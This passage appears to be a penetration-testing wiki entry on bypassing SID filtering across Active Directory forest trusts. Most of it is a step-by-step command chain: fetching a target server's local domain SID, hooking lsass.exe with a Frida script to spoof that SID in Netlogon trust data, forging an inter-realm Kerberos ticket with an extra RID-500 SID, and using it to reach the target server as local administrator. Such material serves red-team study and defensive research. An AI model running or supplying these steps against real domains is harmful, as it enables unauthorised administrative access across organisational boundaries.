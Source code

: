 {% hint style="warning" %}
Some considerations to reproduce the attack:&#x20;

* Full control over the trusted forest is assumed.&#x20;
* Information that flows over to the trusting forest can be modified.&#x20;
* There is at least one server joined to a domain in the trusting forest (referred to as the "target server" here).
{% endhint %}

The attack can be conducted with [Dirk-jan Mollema](https://twitter.com/\_dirkjan)'s [forest trust tools](https://github.com/dirkjanm/forest-trust-tools).

<pre class="language-bash" data-title="1. Get Local Domain SID" data-overflow="wrap"><code class="lang-bash"><strong># Obtain the local domain's SID of the target server in the trusting forest
</strong><strong># The hostname (Security Principal Name) of the target server is required
</strong>getlocalsid.py "trusted_domain"/"someusername"@"&#x3C;target_server_FQDN or IP address>" "target_server_NETBIOS_name"
</code></pre>

<pre class="language-bash" data-title="2. Spoof the target SID" data-overflow="wrap"><code class="lang-bash"><strong># Become a "domain" in the trusted forest using the spoofed SID so that this one is added to the authorized SIDs in the trusting domain
</strong><strong># Intercept the Netlogon request for an existing child domain in the trusted forset and modify the SID with the spoofed one by hooking lsass.exe when the NetrGetForestTrustInformation RPC call is made 
</strong><strong># Notice that the SID of the child domain to look for and the local domain's SID of the  target server should be modified with the right values
</strong><strong># This is to be run as SYSTEM on the trusted DC
</strong>python3 .\frida_intercept.py lsass.exe
</code></pre>

<pre class="language-bash" data-title="3. Get local admin on the target" data-overflow="wrap"><code class="lang-bash"><strong># 1. Forge an inter-realm/referral ticket with the spoofed SID put as extended SID with RID 500 using the AES key of the incoming trust
</strong><strong>ticketer.py -aesKey "AES_key_of_incoming_trust" -domain "trusted_root_domain_FQDN" -domain-sid "trusted_root_domain_SID" -user-id 1000 -groups 513 -extra-sid "&#x3C;spoofed_SID>"-500 -spn "krbtgt/trusting_root_domain_FQDN" "someusername"
</strong><strong>
</strong><strong># 2. Request a service ticket using the forged referral ticket
</strong><strong># Notice that keys has to be manually modified in the getftST.py script before
</strong>KRB5CCNAME="someusername.ccache" getftST.py -spn "CIFS/target_server_FQDN" -target-domain "trusting_root_domain_FQDN" -via-domain "trusted_root_domain_FQDN" "domain/username" -dc-ip "target_DC_IP"
<strong>
</strong><strong># 3. Use the obtained ST to access the target server as local admin
</strong>KRB5CCNAME=username.ccache smbclient.py -k "trusted_domain"/"someusername"@"target_server_FQDN" -no-pass
</code></pre>

#### 🛠️ Keys container trust

// [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)

